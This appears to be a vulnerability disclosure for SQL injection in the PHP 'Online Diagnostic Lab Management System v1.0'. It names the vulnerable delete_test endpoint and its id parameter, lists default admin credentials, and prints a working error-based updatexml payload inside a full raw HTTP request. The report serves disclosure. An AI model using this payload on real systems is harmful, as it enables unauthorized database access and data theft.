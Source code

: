 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Dig-Bick

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/classes/Users.php?f=delete_test

Vulnerability location: /odlms/classes/Users.php?f=delete_test,id

dbname=odlms_db,length=8

[+] Payload: id=1'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /odlms/classes/Users.php?f=delete_test HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/odlms/admin/?page=appointments
Content-Length: 66
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close

id=1'  and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/191270720-1da748df-c50a-42aa-b28f-7f4c0f674ce0.png)
